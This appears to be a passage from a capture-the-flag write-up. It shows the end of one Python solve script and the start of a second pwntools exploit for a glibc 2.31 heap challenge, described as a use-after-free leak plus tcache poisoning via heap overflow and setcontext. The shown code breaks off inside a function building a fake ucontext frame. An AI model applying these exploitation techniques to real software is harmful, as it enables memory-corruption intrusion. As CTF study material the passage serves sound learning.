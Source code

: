 ```python
        os.remove(corefile)

### Helper end


if __name__ == "__main__":
    main()

```

## 6.2. Solve script - Exploit 2<a id="solve script exploit 2"></a>
Leak via UAF + tcache poisoning via heap overflow + setcontext
```python
#!/usr/bin/env python3
from string import Template
import glob
from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe
context.log_level = 'debug'

# must be dict
ENV_VARS = None

gdbscript = """
# breakrva 0x1ab5
# set max-visualize-chunk-size 0x250
continue
"""

def create_ucontext(
    src: int,
    rsp=0,
    rbx=0,
    rbp=0,
    r12=0,
    r13=0,
    r14=0,
    r15=0,
    rsi=0,
    rdi=0,
    rcx=0,
    r8=0,
    r9=0,
    rdx=0,
    rip=0xDEADBEEF,
) -> bytearray:
    b = bytearray(0x200)
    b[0xE0:0xE8] = p64(src)
    b[0x1C0:0x1C8] = p64(0x1F80)

    b[0xA0:0xA8] = p64(rsp)
    b[0x80:0x88] = p64(rbx)
    b[0x78:0x80] = p64(rbp)
    b[0x48:0x50] = p64(r12)
    b[0x50:0x58] = p64(r13)
    b[0x58:0x60] = p64(r14)
```